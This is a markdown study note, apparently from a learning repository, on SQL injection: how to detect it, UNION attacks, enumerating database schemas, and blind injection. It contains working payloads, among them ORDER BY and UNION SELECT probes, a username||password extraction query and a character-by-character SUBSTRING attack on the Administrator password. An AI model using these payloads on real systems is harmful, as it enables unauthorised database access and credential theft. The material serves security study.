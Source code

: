 # SQL injection

## SQL Injection Cheatsheet
- https://tib3rius.com/sqli

## How to detect SQL injection vulnerabilities
- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.

## SQL injection in different parts of the query
- Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
- However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT [column, table], ORDER BY)

## Warning: OR 1=1 
- If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.

## SQL injection UNION attacks
- Requirements
  - How many columns are being returned from the original query
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query

### Determining the number of columns required
- First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  - Example (the injection point is a quoted string within the `WHERE` clause)
  - ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
- Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  - NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct. 
  - ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
- Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

### Database-specific syntax
- Example:
  - Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  - MySQL: the double-dash sequence must be followed by a space
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

### Finding columns with a useful data type
- Do you want a string?
  - ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  - Error example: Conversion failed when converting the varchar value 'a' to data type int.
   - If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

## Examining the database 
| Database type 	| Query |
| ----- | ----- |
| Microsoft, MySQL | 	SELECT @@version |
| Oracle 	| SELECT * FROM v$version |
|PostgreSQL | 	SELECT version() |
- `' UNION SELECT @@version--`
- Listing the contents of the database
- Most database types (except Oracle) have a set of views called the information schema
  - `information_schema.tables `
    - |TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
      | -- | -- | -- | -- |
      | MyDatabase | dbo | Products | BASE TABLE |
    - ` SELECT * FROM information_schema.tables`
  - ` information_schema.columns `
    - | TABLE_CATALOG |TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE |
      | -- | -- | -- | -- | -- |
      |MyDatabase | dbo | Users | UserId | int |
    - `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- Oracle:
  - `SELECT * FROM all_tables`
    - `SELECT TABLE_NAME FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
    - `SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'`

### Retrieving multiple values within a single column
- You can retrieve multiple values together within this single column by concatenating the values together
- `' UNION SELECT username || '~' || password FROM users--`
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

## Blind SQL Injection
- Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

### Exploiting blind SQL injection by triggering conditional responses
- `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  - …xyz' AND '1'='1
    - The query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed. 
  - …xyz' AND '1'='2
    - The query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
- Extract data one piece at a time
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    - This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    -  This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    - ... Confirm that the first character of the password is `s`
  - We can continue this process to systematically determine the full password for the Administrator user.
- `SUBSTRING` is called `SUBSTR` on some types of database (https://portswigger.net/web-security/sql-injection/cheat-sheet)
